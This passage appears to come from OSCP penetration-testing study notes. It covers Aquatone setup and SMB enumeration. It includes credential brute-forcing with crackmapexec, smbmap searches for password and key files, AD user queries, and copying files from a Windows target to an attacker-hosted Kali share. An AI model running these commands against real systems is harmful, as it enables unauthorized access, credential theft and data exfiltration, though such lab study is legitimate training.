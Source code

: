 - Aquatone Installation:
   `wget https://github.com/michenriksen/aquatone/releases/download/v1.7.0/aquatone_linux_amd64_1.7.0.zip` 
   `unzip aquatone_linux_amd64_*.zip -d /opt/aquatone/` 
   If google chrome is not yet installed:  
   `echo "deb [arch=amd64] https://dl.google.com/linux/chrome/deb/ stable main" > /etc/apt/sources.list.d/google-chrome.list` 
   `wget -q -O - https://dl-ssl.google.com/linux/linux_signing_key.pub | apt-key add -` 
   `apt-get update` 
   `apt-get install google-chrome-stable` 
   Aquatone Usage:  
   Collect data based on nmap report: `cat nmap.xml | /opt/aquatone/aquatone -nmap -chrome-path /usr/bin/google-chrome -out screenshots -ports xlarge` 
   Run Aquatone on list of IPs with specific ports: `cat ips.txt | /opt/aquatone/aquatone -chrome-path /usr/bin/google-chrome -out screenshots -ports 25,80,161,264,443,2001,3478,4999,5222,6080,8443,18264,27299,38751`  

- https://guif.re/webtesting
- https://sushant747.gitbooks.io/total-oscp-guide/common_web-services.html 

## SMB
- `nmap -p 139,445 --script=smb-vuln* $targetip`  
- `enum4linux -a $targetip`  
- `smbclient \\\\$ip\\$share`  
- `smbmap -H <IPAddress>`  
- `nbtscan`  
- `crackmapexec smb 10.11.1.1/24`
- Null connect:
  `rpcclient -U "" 10.10.10.10` 
- Try known creds on targets: `crackmapexec smb 10.11.1.1/24 -u Administrator -p 99bbVDdorGzfZJun`  
- Bruteforcing: `crackmapexec smb 10.11.1.1/24 -u /ville/Desktop/OSCP/PWK/users.txt -p /ville/Desktop/OSCP/PWK/pws.txt`  
- Check accessible shares in network with specific domain account:   
  `# smbmap -d <domain> -u <username> -p <password> --host-file files/smbhosts.txt`  
- Search for sensitive data on shares with smbmap:   
- `# smbmap -d DOMAIN -u USER -p PASSWORD --host-file hosts.txt -R -A ".+\.(bat|cmd|ini|kdb|kdbx|key|ps1|reg|txt|vbs)|.*(admin|login|pass|secret|sensitive).*|unattend.*\.xml|web.config" --depth 3`   
- Query AD users in domain from Kali with known credentials:    
  `# /opt/impacket/examples/GetADUsers.py -all domain.local/user1:Str0ngP@ss2021 -dc-ip 192.168.10.1`   

Get files from SMB share:  
- /usr/share/doc/python-impacket/examples# python smbclient.py 10.11.1.136  
- `shares` --> list shares  
- `use <share>` --> use share xyz   
- `get <file>` --> download file  
Or with smbget:  
- `smbget -R smb://1.1.1.1/folder`  

Transfer files from the Kali VM with smbserver.py:  
- `python /usr/lib/python2.7/dist-packages/impacket/smbserver.py share /root/Desktop/OSCP/SMB/SMBServer/`  
- on the Windows target, get the connection to the share with e.g.: `net use \\<kali-ip>\share`  
- copy the file from the remote target to the kali: `copy file.txt \\<kali-ip>\share\
